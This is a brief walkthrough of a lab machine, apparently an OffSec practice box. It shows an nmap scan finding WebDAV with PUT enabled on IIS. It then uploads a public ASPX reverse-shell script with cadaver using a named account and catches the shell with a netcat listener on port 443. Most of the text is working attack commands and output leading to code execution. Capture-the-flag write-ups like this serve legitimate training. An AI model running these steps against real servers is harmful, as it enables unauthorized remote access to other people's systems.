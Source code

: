 # WebDav

### Nmap Scan Results

```bash
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Server Date: Fri, 14 Apr 2023 09:00:33 GMT
|_  Server Type: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/10.0
```

### Aspx Reverse Shell

[https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.165.122]
└─# cadaver http://192.168.154.122
Authentication required for 192.168.154.122 on server `192.168.154.122':
Username: fmcsorley
Password: 
dav:/> put shell.aspx
Uploading shell.aspx to `/shell.aspx':
Progress: [=============================>] 100.0% of 15970 bytes succeeded.
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.165.122]
└─# nc -lvp 443                                                                                      
listening on [any] 443 ...
connect to [192.168.45.5] from hutch.offsec [192.168.154.122] 50261
Spawn Shell...
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
```
